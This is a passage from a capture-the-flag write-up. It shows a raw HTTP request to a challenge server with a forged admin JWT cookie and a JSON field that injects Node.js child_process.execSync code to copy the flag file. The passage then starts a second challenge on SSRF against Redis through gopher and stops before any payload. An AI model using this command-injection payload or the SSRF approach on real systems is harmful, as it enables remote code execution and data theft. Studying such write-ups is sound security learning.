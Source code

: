 ```
POST /api/activity HTTP/1.1
Host: 165.227.224.55:31747
Content-Length: 151
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://165.227.224.55:31747
Referer: http://165.227.224.55:31747/interface
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjUyOTU0NzU1fQ.vldF7xPFUtbh1SgPY6RJ-nPl07ExbLScjw4ugOlc9dI
Connection: close

{"activity":"feed'+process.mainModule.require('child_process').execSync('cat /fl* > /app/static/flag')+'","health":"60","weight":"42","happiness":"50"}
```

![](spiky-7.png)

**HTB{3sc4p3d_bec0z_n0_typ3_ch3ck5}**

### Red Island (325 points)

The value of this challenge is 325 points & +90 players have solved this challenge.

![](red-1.png)

We're given a website for login and registration.

![](red-2.png)

In the dashboard, We could fetch an image from another URL

![](red-3.png)

In general, this kind of feature is vulnerable to `Local File Read` or `Server Side Request Forgery`.

![](red-4.png)

We attempted to find the flag file, so our next attempt is to read the source code instead.

![](red-5.png)

As we can see, there's a library involved with `Redis`. With chaining the known vulnerability, We assume it's an SSRF.

There's an article that explains how to access Redis service using gopher protocol. 

[https://maxchadwick.xyz/blog/ssrf-exploits-against-redis](https://maxchadwick.xyz/blog/ssrf-exploits-against-redis)

